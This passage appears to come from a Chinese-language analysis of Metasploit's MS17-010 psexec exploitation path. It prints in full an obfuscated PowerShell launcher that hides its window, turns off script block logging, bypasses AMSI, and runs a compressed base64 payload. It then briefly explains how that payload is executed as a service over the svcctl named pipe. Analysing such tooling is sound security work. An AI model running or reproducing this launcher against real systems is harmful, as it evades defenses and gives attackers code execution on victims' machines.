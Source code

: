 ```plain
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -noni -c "if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c  $yh=[Collections.Generic.Dictionary[string,System.Object]]::new();If($PSVersionTable.PSVersion.Major -ge 3){ $u0=((''''+''{1}''+''c{0}ipt{2}lock''+''Logg''+''ing'')-f''r'',''S'',''B''); $ov=[Ref].Assembly.GetType(((''{2}{4}st''+''em.{0}''+''a''+''nag''+''ement.{3}''+''utomation.{1''+''}ti''+''{5}s'')-f''M'',''U'',''S'',''A'',''y'',''l'')); $pmnF=((''''+''EnableSc{1}i{0}t{3}l''+''o''+''c''+''{2}''+''Logging'')-f''p'',''r'',''k'',''B''); $crCde=$ov.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); $xI=[Ref].Assembly.GetType(((''''+''{0}''+''{1''+''}''+''st''+''em{9''+''}{4}ana''+''{6}ement''+''{9}{''+''7''+''}''+''{''+''3}t{8}ma''+''ti''+''{8}''+''n{9''+''}{7}msi''+''{''+''5''+''}''+''ti{2}s'')-f''S'',''y'',''l'',''u'',''M'',''U'',''g'',''A'',''o'',''.'')); if ($xI) { $xI.GetField(((''''+''a{0}s''+''i{''+''1}''+''nit{4}''+''a''+''il{3}''+''{2''+''}'')-f''m'',''I'',''d'',''e'',''F''),''NonPublic,Static'').SetValue($null,$true); }; If ($crCde) { $kCnF_=((''{3}nab''+''l{2}''+''{1}cript{4''+''}lock{0''+''}''+''nvocation{5''+''}o''+''gging'')-f''I'',''S'',''e'',''E'',''B'',''L''); $xpL=$crCde.GetValue($null); If($xpL[$u0]){ $xpL[$u0][$kCnF_]=0; $xpL[$u0][$pmnF]=0; } $yh.Add($pmnF,0); $yh.Add($kCnF_,0); $xpL[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$u0]=$yh; } Else { [Ref].Assembly.GetType(((''''+''S{4}''+''stem.''+''{''+''1''+''}an''+''agement.{5}utomation.Sc{2}i{3}''+''tB{0}o''+''ck'')-f''l'',''M'',''r'',''p'',''y'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sIAOED{1}WUCA71WbW/aSBD+flL/g1Uh2agEG0KbJlKlW5sYSAKYOLwXnTb2Yrasvc{1}e{0}kiv//1mj{1}2IklS9k3qWSPZlZnb2mWdmdr6OPEF5pOBbU3SV7+/+ULLPwTEOFa2wjT6WlMKcseJ+r7BCF8oX{1}Zui1arO{''+''0}0yj2dmZtY5jEondvNwgAiUJCW8ZJYlWVP5Whgs''+''Sk6Pu7TfiCeW7Uvir3GD8FrNMbGthb0GUIxT5cu+Ke1g6VnZXjApN/fpV''+''LU6PKrPy+d0as0{1}T3W0iSFj2GVOLyo+iPPBmuyKa2qZezBM+F+UhjY6r5X6U4''+''DnpgLV70iZi''+''wf1EhbvsbxMTsY6j9FLSyk5GU2H''+''ox''+''NxDvh+TJFFLylTan85mf2rT7PDrdS{1''+''}oSMqtSJCYr1wS31OPJOUmjnxGrsl8BlquiGkUzIpFELvnS6IVojVjJeXfmNE6ZJND96tK2qESSDkiLpYgoC+v2eb+mpGdovqKn5ID{1}fgyHgB4Py{1}+85w7/skrxNkv5N803SHgrubwhKaqXxSjpLThZCx4vIVp4SZek+LsCWylEMZGo/Sr1iq5Kij6Ixs1YG064NSf7S08C36BDKTI20SukzmNSH0b4ZB6OVe11wJC5oykgJ{1}zs{0}44qKnZBvHrhJEAC4mx5MULtfO{0}iiddc02ZT2Lk{0}VAT8AriXXzuzC5smtqK2i{0}E9HZzVUYJMoTk0llWbPPT5{1}yEVIvhJCkpzhpS1CspLsGM+CUF{1}{0}nNttBa8HSo7t1tr5mgHk5Ebm5WfAZmdqjFo0TEaw+iCgDcuCviUcwkHiWlSX1ibl0a5Ierr6JhYcYgccDSPU{0}DVi{0}KrpBcicHPlBfFs''+''ktEK1wxEoJMWjBshgMoD1l6pOTCAfHVV93Mk2DHeIlKDs''+''eBkxBql3F{1}UgY0FlB8JMIpt/6TEy/rDnhjxSSLjJZn19TcCpkAhejxI65IjmY{0}pYDEAsCwYx6aOCGfarsao73Xu9{1}B8I1bEWv7F0taaW3g14Zfvz3/cOX{1}wBEGD9uelTgN''+''+zOim2Djfe4''+''gz7/wyak7qAn3vCU''+''sBzV71DBrC880buS4EgTI71655qK38Jjh1Ju6O04MumkO217dfNxUE2BqrdYcGej4uNY9NpaA3xj0lsjvhHTzcAVjT9owW4lptNj5hXV9O6zakyFr6jV7M{1}/yxP00ruu6furjenuLkMn94/Z2VLnmN00vNGs{1}10+t2hKdI2{1}F5wPb5JdjM0aOPsDBim8uA/MqDCxk2h4lk17''+''fNns920T9xre7+qke6KfDEV6Yw0GVTlaj6wX''+''M7U2zd6kbtZZPHvlkA8A1OMLBNcgEVtVbzEGm/gGZHzo8qeKlyZEJMvbkDjUW45XtMNi''+''/6Vc5GrDOCKOrydbW9crYqaGmwYeNAPVAHAdmD6''+''Pkvv5Y''+''1ysDn/vDj53xXB+M2Ilet3rOYiTvrK9C+XfTrF96k8rG657UTOPOCmnIbqu+ftr/bEZw{0}+c+8HvDk+uHzvYWzu3r+uA9MGbap5E4rgJZ+lb3k6yq7/4o3DtodMCbtxpGG8fJAjPgE7SCPKttHttZeXc4l{1}qatnsiLEkcE{0}Z9FTpvnhGIMe7J5gKdANrartnI3tdvpW69NioqT4LFfc/Jl87OJuAkJFjK/vIVi{0}KxKBkPx4YBDcN4MGppKv363Sy+2mo7ayXZc1J0nuyz1D6YpHNF0/4HxOBlIaDOvYXZW/DB0UsoS1Ald7VCgmhyzg4hzG62p8{0}hggBdBW4/lY+KHVnAxhG5UwpC9t3DPl4{0}w9/MnqzqLeCf/''+''3P27Nd+svtLjDJKO3xeLD9fOOgWvxOBIaYC{1}F0o3ozsnhOvAZFlzEGMx{1}CSYZ598nXdXY''+''ujDrzX0u7xDwaZ3dfWCwAA'')-f''Q'',''R'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"
```

*   psexec 函数

同上面 `auxiliary ms17_010_command` 模块中的 psexec 函数调用分析一样，通过命名管道svcctl远程RPC调用进行创建服务、启动服务、删除服务来进行 powershell payload 的执行

lib/msf/core/exploit/remote/smb/client/psexec.rb
